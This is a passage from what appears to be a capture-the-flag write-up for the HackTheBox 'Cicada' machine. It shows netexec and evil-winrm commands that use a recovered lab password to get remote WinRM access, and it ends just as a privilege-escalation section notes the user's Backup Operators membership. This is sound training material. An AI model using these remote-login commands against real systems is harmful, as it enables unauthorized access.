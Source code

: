 It says pwned! means now we have elevated access to the box i.e. we can winrm into it.

```bash
nxc winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![image.png](/assets/images/Cicada_HTB/image%2023.png)

Hence we can winrm into the box !!

```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![image.png](/assets/images/Cicada_HTB/image%2024.png)

Grabbing our user.txt file and submitting it.

## Privilege Escalation

Now after enumerating Emily’s account we found that she is the part of **“Backup Operators”** group.
